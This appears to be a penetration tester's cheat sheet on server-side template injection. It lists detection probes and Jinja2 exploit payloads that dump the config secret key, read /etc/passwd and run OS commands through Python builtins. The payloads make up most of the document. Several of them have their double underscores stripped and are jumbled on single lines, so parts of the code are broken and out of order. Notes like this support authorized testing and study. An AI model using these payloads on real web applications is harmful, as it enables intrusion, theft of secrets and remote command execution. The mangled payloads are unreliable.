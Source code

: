 # SSTI

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

Step 1: Find an injection point, attempt basic payloads and see if app is vulnerable to SSTI.

Can be via input box, or in the URL

Basic Identification:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Exploit

### Jinja2

* Dump all the config variables, will show the secret key, if the variable is set

```
{{ config }} 
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Jinja Injection without \<class 'object'>&#x20;

* From the there is another way to get to RCE without using that class.&#x20;
* \*\*\*\*If you manage to get to any function from those globals objects, you will be able to access **globals**.**builtins** and from there the RCE is very simple.&#x20;
* You can find functions from the objects request, config and any other interesting global object you have access to with:&#x20;

```
{{ request.__class__.__dict__ }}
application
_load_form_data
on_json_loading_failed ​ {{ config.class.dict }}
init
from_envvar
from_pyfile
from_object
from_file
from_json
from_mapping
get_namespace
repr ​
# You can iterate through children objects to find more
```

* Once you have found some functions you can recover the builtins with:

```
# Read File
{{ request.class._load_form_data.globals.builtins.open("/etc/passwd").read() }} ​
# RCE
{{ config.class.from_envvar.globals.builtins.import("os").popen("ls").read() }} {{ config.class.from_envvar["globals"]["builtins"]"import".popen("ls").read() }} {{ (config|attr("class")).from_envvar["globals"]["builtins"]"import".popen("ls").read() }} ​
{{ a }}​ ## Extra ## The global from config have a access to a function called import_string ## with this function you don't need to access the builtins {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }} ​ 
# All the bypasses seen in the previous sections are also valid
```

If it is, the next step is determining the engine that is running the application&#x20;

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
